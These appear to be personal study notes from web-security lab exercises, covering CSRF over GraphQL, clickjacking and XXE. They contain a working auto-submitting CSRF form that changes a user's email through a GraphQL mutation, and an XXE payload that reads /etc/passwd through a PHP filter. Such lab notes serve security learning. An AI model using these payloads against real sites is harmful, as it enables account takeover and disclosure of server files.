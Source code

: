 **Performing CSRF exploits over GraphQL**

```
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



## Return to these labs
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs


## Fix in notes
- GraphQL - Github markdown issue with double curly braces
- Add `<!DOCTYPE+foo+[+<!ENTITY+xxe+SYSTEM+"php://filter/convert.base64-encode/resource=/etc/passwd">+]><root><name>%26xxe;</name><email>test@test.com</email></root>` to XXE (using php filter to grab file with XXE)